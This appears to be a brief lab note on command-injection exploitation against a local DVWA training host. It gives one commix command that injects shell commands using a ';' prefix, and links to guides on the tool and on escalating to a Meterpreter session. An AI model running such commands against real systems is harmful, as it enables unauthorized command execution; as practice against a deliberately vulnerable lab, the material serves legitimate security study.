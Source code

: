 # 01 - Exploit

Search Tag: #commix #command-injection #dvwa

```
$ commix -u "http://dwva.local" --prefix=";" --technique=c
```

---
## References

- [Hacking Articles: Commix-Command Injection Exploiter (Beginner’s Guide)](https://www.hackingarticles.in/commix-command-injection-exploiter-beginners-guide/)

- [Hacking Articles: Command Injection to Meterpreter using Commix](https://www.hackingarticles.in/command-injection-meterpreter-using-commix/)